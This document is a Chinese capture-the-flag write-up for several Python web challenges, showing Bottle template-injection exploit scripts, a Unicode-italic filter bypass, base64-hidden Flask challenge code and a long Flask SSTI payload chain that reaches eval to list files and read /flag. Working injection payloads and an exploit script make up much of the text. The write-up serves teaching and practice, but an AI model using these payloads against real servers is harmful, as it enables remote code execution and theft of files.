# 123最后可以通过 Bottle模板函数 include返回文件内容
编写 exp，注意由于 payload 中用的是单引号，所以 os.a="{x}"这里需要使用双引号分开
import requests
url = 'http://192.168.137.139:5000/attack'
payload = "__import__('os').system('cat /f*>o')"
p = [payload[i:i+1] for i in range(0,len(payload))]
flag = True
for x in p:
if flag:
requests.get(url=url, params={"payload": f'\n%import os;os.a="{x}"'})
flag = False
else:
requests.get(url=url, params={"payload": f'\n%import os;os.a+="{x}"'})
requests.get(url=url, params={"payload":'\n%import os;eval(os.a)'})
print(requests.get(url=url, params={"payload":'\n%include("o")'}).text)
出题人又疯
源码如下
# -*- encoding: utf-8 -*-
'''
@File : app.py
@Time : 2025/03/29 15:52:17
@Author : LamentXU
'''
import bottle
'''
flag in /flag
'''
@bottle.route('/')
def index():
return 'Hello, World!'
blacklist = [
'o', '\\', '\r', '\n', 'import', 'eval', 'exec', 'system', ' ', ';' , 'read'
]
@bottle.route('/attack')
def attack():
payload = bottle.request.query.get('payload')
if payload and len(payload) < 25 and all(c not in payload for c in blacklist):
print(payload)
return bottle.template('hello '+ payload)
else:
bottle.abort(400, 'Invalid payload')
if __name__ == '__main__':
bottle.run(host='0.0.0.0', port=5000) 已疯的 Revenge，这回 ban 掉了很多关键词，得另寻绕过方法
在 Python中支持解析斜字体，执行效果相同，字符串内的斜体无法被正确解析
利用这一点绕过 WAF
/attack?payload={{%BApen(%27/flag%27).re%aad()}}
源码层面的原理分析观摩 LamentXU师傅的文章，仔细分析了 Bottle.template()源码以及Python特性
https://www.cnblogs.com/LAMENTXU/articles/18805019
Now you see me 1
源码
# -*- encoding: utf-8 -*-
'''
@File : app.py
@Time : 2024/12/27 18:27:15
@Author : LamentXU
运行，然后你会发现启动了一个flask服务。这是怎么做到的呢？
注：本题为彻底的白盒题，服务端代码与附件中的代码一模一样。不用怀疑附件的真实性。
'''
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!") ;exec(__import__("base64").b64decode('IyBZT1UgRk9VTkQgTUUgOykKIyAtKi0gZW5jb2Rpbmc6IHV0Zi04IC0qLQonJycKQEZpbGUgICAgOiAgIHNyYy5weQpAVGltZSAgICA6ICAgMjAyNS8wMy8yOSAwMToxMDozNwpAQXV0aG9yICA6ICAgTGFtZW50WFUgCicnJwppbXBvcnQgZmxhc2sKaW1wb3J0IHN5cwplbmFibGVfaG9vayA9ICBGYWxzZQpjb3VudGVyID0gMApkZWYgYXVkaXRfY2hlY2tlcihldmVudCxhcmdzKToKICAgIGdsb2JhbCBjb3VudGVyCiAgICBpZiBlbmFibGVfaG9vazoKICAgICAgICBpZiBldmVudCBpbiBbImV4ZWMiLCAiY29tcGlsZSJdOgogICAgICAgICAgICBjb3VudGVyICs9IDEKICAgICAgICAgICAgaWYgY291bnRlciA+IDQ6CiAgICAgICAgICAgICAgICByYWlzZSBSdW50aW1lRXJyb3IoZXZlbnQpCgpsb2NrX3dpdGhpbiA9IFsKICAgICJkZWJ1ZyIsICJmb3JtIiwgImFyZ3MiLCAidmFsdWVzIiwgCiAgICAiaGVhZGVycyIsICJqc29uIiwgInN0cmVhbSIsICJlbnZpcm9uIiwKICAgICJmaWxlcyIsICJtZXRob2QiLCAiY29va2llcyIsICJhcHBsaWNhdGlvbiIsIAogICAgJ2RhdGEnLCAndXJsJyAsJ1wnJywgJyInLCAKICAgICJnZXRhdHRyIiwgIl8iLCAie3siLCAifX0iLCAKICAgICJbIiwgIl0iLCAiXFwiLCAiLyIsInNlbGYiLCAKICAgICJsaXBzdW0iLCAiY3ljbGVyIiwgImpvaW5lciIsICJuYW1lc3BhY2UiLCAKICAgICJpbml0IiwgImRpciIsICJqb2luIiwgImRlY29kZSIsIAogICAgImJhdGNoIiwgImZpcnN0IiwgImxhc3QiICwgCiAgICAiICIsImRpY3QiLCJsaXN0IiwiZy4iLAogICAgIm9zIiwgInN1YnByb2Nlc3MiLAogICAgImd8YSIsICJHTE9CQUxTIiwgImxvd2VyIiwgInVwcGVyIiwKICAgICJCVUlMVElOUyIsICJzZWxlY3QiLCAiV0hPQU1JIiwgInBhdGgiLAogICAgIm9zIiwgInBvcGVuIiwgImNhdCIsICJubCIsICJhcHAiLCAic2V0YXR0ciIsICJ0cmFuc2xhdGUiLAogICAgInNvcnQiLCAiYmFzZTY0IiwgImVuY29kZSIsICJcXHUiLCAicG9wIiwgInJlZmVyZXIiLAogICAgIlRoZSBjbG9zZXIgeW91IHNlZSwgdGhlIGxlc3NlciB5b3UgZmluZC4iXSAKICAgICAgICAjIEkgaGF0ZSBhbGwgdGhlc2UuCmFwcCA9IGZsYXNrLkZsYXNrKF9fbmFtZV9fKQpAYXBwLnJvdXRlKCcvJykKZGVmIGluZGV4KCk6CiAgICByZXR1cm4gJ3RyeSAvSDNkZGVuX3JvdXRlJwpAYXBwLnJvdXRlKCcvSDNkZGVuX3JvdXRlJykKZGVmIHIzYWxfaW5zMWRlX3RoMHVnaHQoKToKICAgIGdsb2JhbCBlbmFibGVfaG9vaywgY291bnRlcgogICAgbmFtZSA9IGZsYXNrLnJlcXVlc3QuYXJncy5nZXQoJ015X2luczFkZV93MHIxZCcpCiAgICBpZiBuYW1lOgogICAgICAgIHRyeToKICAgICAgICAgICAgaWYgbmFtZS5zdGFydHN3aXRoKCJGb2xsb3cteW91ci1oZWFydC0iKToKICAgICAgICAgICAgICAgIGZvciBpIGluIGxvY2tfd2l0aGluOgogICAgICAgICAgICAgICAgICAgIGlmIGkgaW4gbmFtZToKICAgICAgICAgICAgICAgICAgICAgICAgcmV0dXJuICdOT1BFLicKICAgICAgICAgICAgICAgIGVuYWJsZV9ob29rID0gVHJ1ZQogICAgICAgICAgICAgICAgYSA9IGZsYXNrLnJlbmRlcl90ZW1wbGF0ZV9zdHJpbmcoJ3sjJytmJ3tuYW1lfScrJyN9JykKICAgICAgICAgICAgICAgIGVuYWJsZV9ob29rID0gRmFsc2UKICAgICAgICAgICAgICAgIGNvdW50ZXIgPSAwCiAgICAgICAgICAgICAgICByZXR1cm4gYQogICAgICAgICAgICBlbHNlOgogICAgICAgICAgICAgICAgcmV0dXJuICdNeSBpbnNpZGUgd29ybGQgaXMgYWx3YXlzIGhpZGRlbi4nCiAgICAgICAgZXhjZXB0IFJ1bnRpbWVFcnJvciBhcyBlOgogICAgICAgICAgICBjb3VudGVyID0gMAogICAgICAgICAgICByZXR1cm4gJ05PLicKICAgICAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgICAgIHJldHVybiAnRXJyb3InCiAgICBlbHNlOgogICAgICAgIHJldHVybiAnV2VsY29tZSB0byBIaWRkZW5fcm91dGUhJwoKaWYgX19uYW1lX18gPT0gJ19fbWFpbl9fJzoKICAgIGltcG9ydCBvcwogICAgdHJ5OgogICAgICAgIGltcG9ydCBfcG9zaXhzdWJwcm9jZXNzCiAgICAgICAgZGVsIF9wb3NpeHN1YnByb2Nlc3MuZm9ya19leGVjCiAgICBleGNlcHQ6CiAgICAgICAgcGFzcwogICAgaW1wb3J0IHN1YnByb2Nlc3MKICAgIGRlbCBvcy5wb3BlbgogICAgZGVsIG9zLnN5c3RlbQogICAgZGVsIHN1YnByb2Nlc3MuUG9wZW4KICAgIGRlbCBzdWJwcm9jZXNzLmNhbGwKICAgIGRlbCBzdWJwcm9jZXNzLnJ1bgogICAgZGVsIHN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0CiAgICBkZWwgc3VicHJvY2Vzcy5nZXRvdXRwdXQKICAgIGRlbCBzdWJwcm9jZXNzLmNoZWNrX2NhbGwKICAgIGRlbCBzdWJwcm9jZXNzLmdldHN0YXR1c291dHB1dAogICAgZGVsIHN1YnByb2Nlc3MuUElQRQogICAgZGVsIHN1YnByb2Nlc3MuU1RET1VUCiAgICBkZWwgc3VicHJvY2Vzcy5DYWxsZWRQcm9jZXNzRXJyb3IKICAgIGRlbCBzdWJwcm9jZXNzLlRpbWVvdXRFeHBpcmVkCiAgICBkZWwgc3VicHJvY2Vzcy5TdWJwcm9jZXNzRXJyb3IKICAgIHN5cy5hZGRhdWRpdGhvb2soYXVkaXRfY2hlY2tlcikKICAgIGFwcC5ydW4oZGVidWc9RmFsc2UsIGhvc3Q9JzAuMC4wLjAnLCBwb3J0PTUwMDApCg=='))
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")
print("Hello, world!")核心代码被藏起来了。将代码Base64解码如下
# YOU FOUND ME ;)
# -*- encoding: utf-8 -*-
'''
@File : src.py
@Time : 2025/03/29 01:10:37
@Author : LamentXU
'''
import flask
import sys
enable_hook = False
counter = 0
def audit_checker(event,args):
global counter
if enable_hook:
if event in ["exec", "compile"]:
counter += 1
if counter > 4:
raise RuntimeError(event)
lock_within = [
"debug", "form", "args", "values",
"headers", "json", "stream", "environ",
"files", "method", "cookies", "application",
'data', 'url' ,'\'', '"',
"getattr", "_", "{{", "}}",
"[", "]", "\\", "/","self",
"lipsum", "cycler", "joiner", "namespace",
"init", "dir", "join", "decode",
"batch", "first", "last" ,
" ","dict","list","g.",
"os", "subprocess",
"g|a", "GLOBALS", "lower", "upper",
"BUILTINS", "select", "WHOAMI", "path",
"os", "popen", "cat", "nl", "app", "setattr", "translate",
"sort", "base64", "encode", "\\u", "pop", "referer",
"The closer you see, the lesser you find."]
# I hate all these.
app = flask.Flask(__name__)
@app.route('/')
def index():
return 'try /H3dden_route'
@app.route('/H3dden_route')
def r3al_ins1de_th0ught():
global enable_hook, counter
name = flask.request.args.get('My_ins1de_w0r1d')
if name:
try:
if name.startswith("Follow-your-heart-"):
for i in lock_within:
if i in name:
return 'NOPE.'
enable_hook = True
a = flask.render_template_string('{#'+f'{name}'+'#}')
enable_hook = False
counter = 0
return a
else:
return 'My inside world is always hidden.'
except RuntimeError as e:
counter = 0
return 'NO.'
except Exception as e:
return 'Error'
else:
return 'Welcome to Hidden_route!'
if __name__ == '__main__':
import os
try:
import _posixsubprocess
del _posixsubprocess.fork_exec
except:
pass
import subprocess
del os.popen
del os.system
del subprocess.Popen
del subprocess.call
del subprocess.run
del subprocess.check_output
del subprocess.getoutput
del subprocess.check_call
del subprocess.getstatusoutput
del subprocess.PIPE
del subprocess.STDOUT
del subprocess.CalledProcessError
del subprocess.TimeoutExpired
del subprocess.SubprocessError
sys.addaudithook(audit_checker)
app.run(debug=False, host='0.0.0.0', port=5000)很明显的 Flask SSTI，传参必须为 Follow-your-heart-开头，{#是 flask特色注释，用 #}闭合前面，黑名单过滤了 {{}}，可以使用 {%%}
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{%print(1)%}{#黑名单筛了很多关键词，但发现没有过滤 request和. 可以借此去调用 request对象中的一些属性
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{%print(request)%}{#
在 request中有这样一些能接收请求头中的特定值的属性，如pragma、mimetype，同时并没有在黑名单中，可以通过其接收指定字符串来调用函数
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%print((request|attr(request.mimetype)).get(0|string))%}{%23&0=a
# Content-Type: args通过 |string将值转为字符串形式，看到成功打印出 a
SSTI，先请求个 __class__试试
Payload 如下
#().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(137).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')("__import__('os').popen('ls -al /').read()")
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-#}{%print(()|attr((request|attr(request.mimetype)).get(0|string))|attr((request|attr(request.mimetype)).get(1|string))|attr((request|attr(request.mimetype)).get(2|string))()|attr((request|attr(request.mimetype)).get(3|string))(137)|attr((request|attr(request.mimetype)).get(4|string))|attr((request|attr(request.mimetype)).get(5|string))|attr((request|attr(request.mimetype)).get(3|string))((request|attr(request.mimetype)).get(6|string))|attr((request|attr(request.mimetype)).get(3|string))((request|attr(request.mimetype)).get(7|string))((request|attr(request.mimetype)).get(8|string)))%}{#&0=__class__&1=__base__&2=__subclasses__&3=__getitem__&4=__init__&5=__globals__&6=__builtins__&7=eval&8=__import__('os').popen('ls -al /').read()